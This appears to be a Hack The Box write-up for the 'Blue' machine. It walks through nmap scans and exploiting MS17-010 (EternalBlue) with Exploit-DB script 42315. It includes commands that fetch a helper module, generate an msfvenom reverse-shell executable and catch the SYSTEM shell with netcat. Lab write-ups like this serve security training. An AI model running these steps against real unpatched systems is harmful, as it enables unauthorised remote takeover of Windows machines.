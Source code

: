 # Blue Writeup w/o Metasploit

![](https://miro.medium.com/max/580/1*eSNoiP18tknq4quq3BqMbQ.png)

## Reconnaissance <a id="9514"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.40
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that nine ports are open:

* **Port 139:** running Microsoft Windows netbiois-ssn
* **Port 445:** running microsoft-ds
* **Ports 135, 49152, 49153, 49154, 49155, 49156 & 49157:** running msrpc

![](https://miro.medium.com/max/720/1*aWpgvwmieDHzim-Y9yuWdA.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA full 10.10.10.40
```

We get back the following result. No other ports are open.

![](https://miro.medium.com/max/722/1*Dnbg_3iLC7Jhjfppa5ifUA.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA udp 10.10.10.40
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So instead I ran another UDP scan only for the top 1000 ports.

![](https://miro.medium.com/max/616/1*SJ5I5l3C1AkXoHQHLBhS6A.png)

## Enumeration <a id="6d58"></a>

As usual, we’ll run the general nmap vulnerability scan scripts to determine if any of the services are vulnerable.

```text
nmap --script vuln -oA vuln 10.10.10.40
```

![](https://miro.medium.com/max/720/1*jtetoe9Kw49xPZEG-aOWyw.png)

The box is vulnerable to EternalBlue! And guess what the EternalBlue exploit does? It gives me system access, so this box won’t be too difficult to solve. If you’re not familiar with EternalBlue, it exploits Microsoft’s implementation of the Server Message Block \(SMB\) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

## Exploitation <a id="19ce"></a>

Search for a non Metasploit exploit in the Exploit Database.

```text
searchsploit --id MS17-010
```

![](https://miro.medium.com/max/907/1*Kg0NgJlUKTIs3fBA7iCk6w.png)

We’re working with Windows 7 so we’ll use exploit \# 42315. Clone the exploit into the working directory.

```text
searchsploit -m 42315
```

After looking at the source code, we need to do three things:

1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.
2. Use MSFvenom to create a reverse shell payload \(allowed on the OSCP as long as you’re not using meterpreter\).
3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.

First, download the file and rename it to mysmb.py

```text
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py.1 mysmb.py
```

Second, use MSFvenom to generate a simple executable with a reverse shell payload.

```text
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.6 LPORT=4444 > eternal-blue.exe
```

Third, we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed.

If you run enum4linux, you can see that guest login is supported.

```text
enum4linux -a 10.10.10.40
```

* **-a**: Do all simple enumeration

We’ll add that to the exploit script.

![](https://miro.medium.com/max/341/1*6DCJVdyX8Hg766vfn8B0kA.png)

Similarly, we’ll add the reverse shell executable location and get the script to execute it.

![](https://miro.medium.com/max/864/1*qj1K_l6AXdFgm3PRNVi1mw.png)

Now that we’re done all three tasks, setup a listener on your attack machine.

```text
nc -nlvp 4444
```

Then run the exploit.

```text
python 42315.py 10.10.10.40
```

We have a shell with system privileges!

![](https://miro.medium.com/max/612/1*rVzn6hzA2Cz6U0tKZQAT4Q.png)

Grab the user flag.

![](https://miro.medium.com/max/622/1*F398e8JSIX_w0SYptS0D3Q.png)

Grab the root flag.

![](https://miro.medium.com/max/622/1*H9PLqvJQCxvFYeI28tTpfQ.png)

## Lessons Learned <a id="0408"></a>

I keep repeating this in most of my HTB writeup blogs and I’ll say it again, it goes without saying that you should always update your systems **especially** when updates are released for critical vulnerabilities! If the system administrator had installed the MS17–010 security update, I would have had to find another way to exploit this machine.

